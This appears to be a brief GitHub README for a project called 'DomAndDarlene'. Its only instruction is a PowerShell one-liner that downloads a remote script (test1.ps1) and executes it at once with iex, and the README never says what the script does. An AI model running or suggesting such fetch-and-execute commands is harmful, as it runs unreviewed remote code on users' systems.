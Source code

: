 # DomAndDarlene
Run Away with me

## Powershell:
`iex (iwr https://github.com/RavenCraftInitaitives/DomAndDarlene/raw/main/test1.ps1).Content`
